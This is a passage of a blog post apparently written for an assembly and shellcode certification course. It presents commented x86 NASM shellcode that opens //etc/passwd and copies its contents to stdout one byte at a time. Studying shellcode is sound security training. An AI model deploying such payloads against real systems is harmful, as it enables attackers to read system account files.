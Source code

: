 ```nasm
xor eax, eax                    ; eax = 0
cdq                             ; edx = 0
mov byte [esp+12], al           ; null terminate string "//etc/passwd"
mov al, 0x5                     ; sys_open
mov ebx, esp                    ; const char *pathname
xor ecx, ecx                    ; int flags
int 0x80

read:

mov ecx, esp                    ; void *buf
push eax                        ; save fd value for next byte read loop
mov ebx, eax                    ; int fd
xor eax, eax                    ; eax = 0
mov dl, 0x1                     ; size_t count = 1, we're reading a single byte at a time
mov al, 0x3                     ; sys_read
int 0x80

cdq                             ; edx = 0
cmp edx, eax                    ; check if we have any bytes left to read
je exit                         ; if not, exit

mov eax, edx                    ; eax = 0
mov ebx, eax                    ; ebx = 0
mov al, 0x4                     ; sys_write
mov bl, 0x1                     ; int fd = 1 (stdout)
mov dl, 0x1                     ; size_t count = 1, we're writing a single byte at a time
int 0x80

pop eax                         ; restore fd value
jmp read                        ; loop to next byte

exit:

mov eax, edx                    ; eax = 0
inc eax                         ; eax = 1, sys_exit
xor ebx, ebx                    ; ebx = 0, int status
int 0x80
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1236

All source files can be found on GitHub at [https://github.com/slemire/slae32](https://github.com/slemire/slae32)